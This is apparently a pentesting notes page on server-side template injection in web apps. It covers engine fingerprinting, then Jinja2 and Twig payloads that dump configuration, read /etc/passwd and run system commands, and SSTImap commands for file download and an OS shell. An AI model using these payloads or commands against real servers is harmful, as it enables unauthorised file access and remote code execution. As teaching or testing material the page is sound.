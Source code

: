 ```yaml
---
layout: default
title: SSTI
permalink: /Web/ssti/
---
```


# Server-Side Template Injection (SSTI)
A template engine is software that combines pre-defined templates with dynamically generated data and is often used by web applications to generate dynamic responses.
This generation is often based on user input, enabling the web application to respond to user input dynamically.
When an attacker can inject template code that is later rendered by the server, a Server-Side Template Injection vulnerability can occur.
Popular examples of template engines are Jinja and Twig.
## Templating
### Jinja2
Example:
{% raw %}
```
Hello {{ name }}!
```
{% rawend %}
It contains a single variable called `name`, which is replaced with a dynamic value during rendering.
For-loop over all elements in the `names` variable (if is like `names=["name", "name2", "name3"]`):
{% raw %}
```
{% for name in names %}
Hello {{ name }}!
{% endfor %}
```
{% endraw %}
## Confirming SSTI
The most effective way is to inject special characters with semantic meaning in template engines and observe the web application's behavior.
Example:
{% raw %}
```
${{<%[%'"}}%\.
```
{% endraw %}
## Identifying the Template Engine
We can utilize slight variations in the behavior of different template engines. We can use this decision tree by following the green sign in case of successful code execution and the red cross in case of the payload wasn't executed:
{% raw %}
```
${7*7}
├── ✅ a{*comment*}b
│   ├── ✅ Smarty
│   └── ❌ ${"z".join("ab")}
│       ├── ✅ Mako
│       └── ❌ Unknown
└── ❌ {{7*7}}
    ├── ✅ {{7*'7'}}
    │       ├── ✅  Jinja2
    │       ├── ✅  Twig
    │       └── ❌ Unknown
    └── ❌ Not vulnerable
```
{% endraw %}
*Note: There are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).
## Exploiting SSTI in Jinja2

### Information Disclosure
Payload to dump the entire web application configuration:
{% raw %}
```
{{ config.items() }}
```
{% endraw %}
Payload to dump all available built-in functions:
{% raw %}
```
{{ self.__init__.__globals__.__builtins__ }}
```
{% endraw %}
### Local File Inclusion (LFI)
{% raw %}
```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
{% endraw %}
### Remote Code Execution (RCE)
We can use functions provided by the os library, such as system or popen. However, if the web application has not already imported this library, we must first import it by calling the built-in function import:
{% raw %}
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% endraw %}
*Note: if you have to put spaces in the command and get errors, try also hexadecimal encoding them with `\x20`.*
## Exploiting SSTI in Twig
### Information Disclosure
Payload to get information about the current template:
{% raw %}
```
{{ _self }}
```
{% endraw %}
### Local File Inclusion (LFI)
The PHP web framework Symfony defines additional Twig filters. One of these filters is file_excerpt and can be used to read local files:
{% raw %}
```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
{% endraw %}
### Remote Code Execution (RCE)
{% raw %}
```
{{ ['id'] | filter('system') }}
```
{% endraw %}
*Note: if you have to put spaces in the command and get errors, try also hexadecimal encoding them with `\x20`.*
## Tools of the Trade
Popular tools for identifying and exploiting SSTI vulnerabilities are [tplmap](https://github.com/epinna/tplmap) and [SSTImap](https://github.com/vladko312/SSTImap).
### SSTImap
```
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py
```
To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:
```
python3 sstimap.py -u http://$ip/index.php?name=test
```
We can download a remote file to our local machine using the `-D` flag:
```
python3 sstimap.py -u http://$ip/index.php?name=test -D '/etc/passwd' './passwd'
```
We can execute a system command using the -S flag:
```
python3 sstimap.py -u http://$ip/index.php?name=test -S id
```
Alternatively, we can use --os-shell to obtain an interactive shell:
```
python3 sstimap.py -u http://$ip/index.php?name=test --os-shell
```
